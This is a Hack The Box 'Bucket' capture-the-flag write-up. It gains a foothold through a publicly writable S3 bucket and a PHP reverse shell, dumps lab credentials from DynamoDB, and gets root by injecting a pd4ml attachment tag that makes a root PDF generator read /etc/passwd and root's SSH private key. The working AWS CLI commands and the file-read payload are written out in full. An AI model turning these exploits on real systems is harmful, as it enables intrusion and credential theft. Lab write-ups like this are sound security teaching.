




# Hack The Box: Bucket write-up

Bucket was a medium box which, as you might deduce from the name, had some AWS S3 and DynamoDB stuff. It starts off with a publicly writable bucket which we can use to get a foothold into the box via uploading a simple PHP script with a reverse shell. Once into the box we see that the user has a project in development running locally as root, which we can use to read arbitrary files through the PDF generation feature.

Let's start! The IP of the machine is ``10.10.10.212``.

## Enumeration

I start by enumerating open ports to discover the services running in the machine. I'll first add `bucket.htb` to my `/etc/hosts` file, then fire up nmap:

*Result of nmap scan*

```
# Nmap 7.80 scan initiated Mon Nov 23 23:02:43 2020 as: nmap -sV -sC -oA nmap/initial bucket.htb
Nmap scan report for bucket.htb (10.10.10.212)
Host is up (0.016s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 23 23:02:55 2020 -- 1 IP address (1 host up) scanned in 12.46 seconds
```

Not too much, just SSH and HTTP on the standard ports.

### Port 80 enumeration

We can see that there is some sort of advertising platform.

*Main website*


By looking at the source code we can see a new virtual host for the machine: `s3.bucket.htb`.

*Main website source code*


I added it to my hosts file and tried to use the AWS cli to test whether the bucket was properly configured, i.e if I was able to upload files.

*Listing bucket contents and uploading a text file*




Cool, so there was a bucket called `adserver` and managed to upload files with `aws s3 cp poc.php s3://adserver/poc.php --endpoint-url http://s3.bucket.htb`. At this point I didn't realise that I could actually exploit this further and kept searching (silly, I know).

### DynamoDB enumeration

I started bruteforcing and found two endpoints: `/health` and `/shell`.

*Bruteforcing the s3 vhost*




Weird, the `/shell` endpoint redirects to a weird domain... I was out of ideas while trying things when I accidentally typed `/shell/` and was greeted with a console!

*DynamoDB Web Shell*


Having never used DynamoDB I started taking a look at the AWS Javascript SDK API reference and DynamoDB and came up with the following JS snippet:

```
dynamodb.listTables({Limit: 10}, function(err, data) {
  if (err) {
    console.log("Error", err.code);
  } else {
    console.log("Table names are ", data.TableNames);
  }
});
```

*Getting tables*


Then I got the table schema:

```
dynamodb.describeTable({TableName: 'users'}, function(err, data) {
  if (err) {
    console.log("Error", err.code);
  } else {
    console.log("Table: ", data.Table.KeySchema);
  }
});
```

*Getting users table schema*


And finally I dumped the whole table with

```
var params = {
  TableName: 'users',
  Select: "ALL_ATTRIBUTES",
};

dynamodb.scan(params, function(err, data) {
if (err) {
  console.log("Error", err.code);
} else {
  console.log("Table: ", JSON.stringify(data, null, 0));
}
});
```

*Dumping the users table*


Juicy credentials! I tried to use them for SSH but none worked so it seemed like I was missing something...

```
Mgmt:Management@#1@#
Cloudadm:Welcome123!
Sysadm:n2vM-<_K_Q:.Aa2
```

One thing I wondered about was whether there was any cli command to do what I just did and indeed there was:

```
aws dynamodb list-tables --endpoint-url http://s3.bucket.htb
aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb
```

### Rabbit hole with EC2 metadata

I stumbled upon `https://s3.bucket.htb/latest/meta-data/` and was puzzled that this returned data, since this was supposed to be an S3 bucket and not an EC2 instance. I tried to get keys but it seemed like this was a rabbit hole so after not finding anything I just moved on.

*EC2 metadata*


## Getting User

### S3 bucket arbitrary file upload

I went back to the S3 bucket stuff and retraced my steps to realise that I was stupid. The things I tried at the beginning were uploading PHP scripts and then accessing them at `https://s3.bucket.htb`, which obviously wasn't working since S3 is only used for static content. What I should've done was accessing them through `https://bucket.htb`, which I knew was linked to the bucket because the pictures on the blog were the ones from the bucket.

*Accessing uploaded file in bucket.htb*



Cool so it works, now I just need to upload a PHP script and set up a listener with netcat.

*Initial reverse shell*


I had to do this a few times for it to work, as it seemed that there was something deleting everything new every some time. Once in I saw that there was a user called `roy` that had some kind of project.

*Basic recon in the box*


Interestingly enough, this project thing seemed to be coded to listen on localhost, maybe it is running?

*Project config*


Before doing anything else I thought of improving my shell and figured that maybe one of the passwords I found earlier could work with `roy`.

## Getting Root

### Project enumeration

The sysadmin password did the job and I was in with `roy:n2vM-<_K_Q:.Aa2`.

*SSH access as Roy*


However, there wasn't anything else interesting under `~/project` so I decided to further enumerate the box.

### Bucket App enumeration

I found a `bucket-app` directory on `/var/www` that was new to me so I took a look at it.

*Bucket App on /var/www*


It seems that this was the continuation of the previous project I saw earlier, as it has the same configuration for the DynamoDB stuff. There were extra things:

- The main code login takes place when we make a `POST` request with `action=get_alerts` as data.
- It seems to connect to the DynamoDB on port 4566 to retrieve data.
- It gets data from the `alerts` table, specifically the rows where `title` is `Ransomware`.
- It gets that data and writes it to HTML files and then calls the jar to generate the PDF.

*index.php contents*


There were more things though, amongst them a call to `pd4ml_demo.jar`, which we saw in the directory list earlier. I googled it and saw that it was an HTML to PDF converter for Java.

*Pd4ml website*



My obvious next step was checking whether this was running on the box so I used `ss -lntu` to get open ports. `4566` was up, which meant that probably it was!

*Ports listening on localhost*


*Project running on localhost:8000*


Right, so now we know that the application is running on port 8000 and can try a `POST` request with `action=get_alerts` as data.

*Making a POST request to the application*


I got a 500, which was weird. Then I run the PDF generation command and it seemed like only root had access to that directory, which meant that the application was running as root.

Just out of curiosity I wanted to look what the app looked like, even though there was really nothing on it. I used an SSH tunnel: `ssh -L 8000:127.0.0.1:8000 roy@bucket.htb`.

*SSH tunneling to access the app*


Then I went back to the 500 error and tried to see where it was coming from. Given that the app was trying to get information out of the database I figured the first step should be to check what kind of data it has. To my surprise the `alerts` table didn't even exist!

*Listing the tables on the local DynamoDB instance*


This made sense, since it was supposed to be an app in development maybe that part hadn't been done yet. With all these hints I knew what the way to root was:

- Create the `alerts` table.
- Add a row that contains some crafted data and make a POST request to trigger the PDF creation.
- Somehow find a way to exploit the PDF generation step with that crafted data.

### 1. DynamoDB table creation

This first step wasn't too complex, it was mainly googling for stuff and finding the correct arguments to pass to the command. Finally I got to:

```
aws dynamodb create-table --table-name alerts --atribute-definitions AttributeName=tittle,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url http://127.0.0.1:4566
```

Broken down:

- `aws dynamodb create-table` is the AWS CLI syntax to create a table in DynamoDB.
- `--table-name alerts` is self-explanatory
- `--atribute-definitions AttributeName=tittle,AttributeType=S` creates a string attribute (like SQL column)
- `--key-schema AttributeName=title,KeyType=HASH` indicates that title is the primary key of the table. `KeyType` can be `HASH`, which indicates that this value is unique for every row and hence the primary key, or `RANGE`, which means that the primary key of the table is the combination of the hash and range keys.
- `--provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5` states the amount of read and write activity that the table can support.
- `--endpoint-url http://127.0.0.1:4566` is the DynamoDB URL.

*Creation of the alerts table*


*Table created*


### 2. Adding data to the table

Again, this was based off reading the documentation and googling. The command is simpler than the last one, the only thing to explain is that for each attribute we need to specify the type, that's why there is an `"S"` key before the value.

```
aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "hello this is a test"}} --endpoint-url http://127.0.0.1:4566'
```

As that was done I tried to run the command and the PDF was generated with the content from the table.

*Adding data to the table*


*Created PDF*


### 3. Exploit the PDF generation

Cool, so now we have the PDF generation working, we just need to find a way to exploit it. Keeping in mind that this was generated with root permissions I thought that we should be able to include local files through some `pd4ml` special syntax. Following <https://pd4ml.com/cookbook/pdf-attachments.htm> I got `<pd4ml:attachment src="file:/etc/passwd" description="attachment sample"/>` and added it to the data attribute:

```
aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment src=\"file:/etc/passwd\" description=\"attachment sample\"/>"}}' --endpoint-url http://127.0.0.1:4566
```

Note that we need to escape double quotes. I generated the PDF and after running strings the file contents were there!

*Local file read as root*


To get a root shell I included `/root/.ssh/id_rsa` instead to get the root user private SSH key. Now, I needed to generate the table each time so I just combined the two commands in a one-liner:

```
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url http://127.0.0.1:4566 \
&& aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment src=\"file:/root/.ssh/id_rsa\" description=\"attachment sample\"/>"}}' --endpoint-url http://127.0.0.1:4566
```

*Getting root's private key*


Then we can just SSH in with the key and get the hash!

*SSHing as root*


## Afterthoughts

As always, someething I like to do when I root a box is to see how things work. On this case there were a lot of scripts in the root directory.

*/root directory list*


We can see that the local DynamoDB instance works via Docker and that the adserver was being wiped clean every 60 seconds, which was annoying.

*Box scripts*


Another interesting script was `restore.php`, called in `restore.sh` above. This proves my idea that the `alerts` table wasn't yet created as `$params` is only passed to `$dynamodb->deleteTable($params)` but not to `$dynamodb->createTable()`.

```php
#!/usr/bin/php
<?php
require '/var/www/bucket-app/vendor/autoload.php';
date_default_timezone_set('America/New_York');
use Aws\DynamoDb\DynamoDbClient;
use Aws\DynamoDb\Exception\DynamoDbException;

$client = new Aws\Sdk([
    'profile' => 'default',
    'region'  => 'us-east-1',
    'version' => 'latest',
    'endpoint' => 'http://localhost:4566'
]);

$dynamodb = $client->createDynamoDb();
$params = [
    'TableName' => 'alerts'
];
$tableName='users';
try {
$response = $dynamodb->createTable([
	'TableName' => $tableName,
	'AttributeDefinitions' => [
		[
			'AttributeName' => 'username',
			'AttributeType' => 'S'
		],
		[
			'AttributeName' => 'password',
			'AttributeType' => 'S'
		]
	],
	'KeySchema' => [
		[
			'AttributeName' => 'username',
			'KeyType' => 'HASH'
		],
		[
			'AttributeName' => 'password',
			'KeyType' => 'RANGE'
		]
	],
	'ProvisionedThroughput' => [
             'ReadCapacityUnits'    => 5,
             'WriteCapacityUnits' => 5
        ]
]);

$response = $dynamodb->putItem(array(
    'TableName' => $tableName,
    'Item' => array(
        'username'   => array('S' => 'Cloudadm'),
        'password'  => array('S' => 'Welcome123!')
    )
));

$response = $dynamodb->putItem(array(
    'TableName' => $tableName,
    'Item' => array(
        'username'   => array('S' => 'Mgmt'),
        'password'  => array('S' => 'Management@#1@#')
    )
));

$response = $dynamodb->putItem(array(
    'TableName' => $tableName,
    'Item' => array(
        'username'   => array('S' => 'Sysadm'),
        'password'  => array('S' => 'n2vM-<_K_Q:.Aa2')
    )
));}
catch(Exception $e) {
  echo 'Message: ' .$e->getMessage();
}
$result = $dynamodb->deleteTable($params);
```

## Conclusion

This is everything, I hope you enjoyed the writeup and learned something new. It was definitely a cool box that made me learn a lot about new things, but most importantly taught me to think what the box is used for and where the vulnerabilities could be. If you liked it you can give me respect on Hack The Box through the following link: <https://www.hackthebox.eu/home/users/profile/31531>. Until next time!

---

*Diego Bernal Adelantado*
